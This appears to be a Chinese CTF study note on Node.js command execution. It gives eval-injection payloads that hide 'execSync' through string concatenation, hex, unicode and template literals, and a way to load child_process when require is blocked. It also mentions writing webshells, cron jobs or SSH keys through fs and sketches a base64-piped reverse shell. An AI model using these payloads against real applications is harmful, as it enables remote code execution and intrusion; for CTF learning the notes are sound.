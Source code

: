 ## 关于child_process

`nodejs`基于事件驱动来处理并发，本身是单线程模式运行的。`Nodejs`通过使用`child_process`模块来生成多个子进程来处理其他事物。

在`child_process`中有七个方法它们分别为：`execFileSync`、`spawnSync`,`execSync`、`fork`、`exec`、`execFile`、以及`spawn`,而这些方法使用到的都是`spawn()`方法。

在`Nodejs`中，`nodejs`通过使用`child_process`模块来生成多个子进程来处理其他事物就包括4个异步进程函数分别为`spawn`,`exec`,`execFile`,`fork`和3个同步进程函数`spawnSync`,`execFileSync`,`execSync`。

## 关于nodejs的命令执行

对于`nodejs`我们尝试用`require`来开启子进程进行命令执行。

假设题目需要绕过一些敏感字符，如`exec`，所以我们有多种方法即字符串拼接或者字符串的编码转换，在`nodejs`当中，对于十六进制编码与`unicode`编码都是适应的。

```
所以原先的：eval=require("child_process").execSync('cat fl001g.txt')

可以转变为：eval=require("child_process")['exe'%2b'cSync']('cat fl001g.txt')

或者是：eval=require("child_process")["\x65\x78\x65\x63\x53\x79\x6e\x63"]('cat fl001g.txt')

以及unicode编码:eval=require("child_process")["\u0065\u0078\u0065\u0063\u0053\x79\x6e\x63"]('cat fl001g.txt')
包括模板字符串：`eval=require(%22child_process%22)[`${`${`exe`}cSync`}`](%27ls%27)`。
```

![image-20210402145331046](js命令执行/image-20210402145331046.png)

![image-20210402145418623](js命令执行/image-20210402145418623.png)

## 文件读写

文件读取可以直接使用fs模块

### 查看文件

`Node.js` 文件系统（`fs` 模块）模块中的方法均有异步和同步版本，例如读取文件内容的函数有异步的 `fs.readFile()` 和同步的 `fs.readFileSync()`。

![image-20210402145613938](js命令执行/image-20210402145613938.png)

### 查看目录

```javascript
fs.readdir(path,callback)
```

![image-20210402145839432](js命令执行/image-20210402145839432.png)

### 写文件

```javascript
fs.writeFileSync('filename','content')
```

![image-20210402150522209](js命令执行/image-20210402150522209.png)

![image-20210402150536566](js命令执行/image-20210402150536566.png)

可以利用写文件来写webshell,计划任务,ssh等

## 关于nodejs中spawn与exec的区别

异步函数`spawn`是最基本的创建子进程的函数，其他三个异步函数都是对`spawn`不同程度的封装，即`exec`，`execfile`,`fork`。

所以他们的区别就是`spawn`只能运行指定的程序，参数需要在列表中给出，而`exec`可以直接运行复杂的命令。

要运行`du -sh /disk1`命令， 使用`spawn`函数需要写成`spawn('du', [''-sh ', '/disk1'])`，而使用exec函数时，可以直接写成`exec('du -sh /disk1')`。

## 当require被禁用时(目前本地还没测试成功)

我们可以使用`通过global全局对象加载模块`来调用子进程。

```javascript
global.process.mainModule.constructor._load('child_process').exec('ls');
```

利用`Function`进行执行：

```javascript
Function("global.process.mainModule.constructor._load('child_process').exec('ls')")();
```

利用`setInterval`进行命令执行：

```javascript
setInteval(function, 2000)  #即间隔两秒
```

利用`setTimeout`进行命令执行：

```javascript
setTimeout(function, 2000)  #即两秒后执行
```

## 关于反弹shell

在`nodejs`当中与`java`有些类似，反弹`shell`需要进行一些额外的编码解码才能够规避掉一些敏感词，例如`+`号

```javascript
shell反弹：
code=require('child_process').exec('cmd'|base64 -d|bash');
```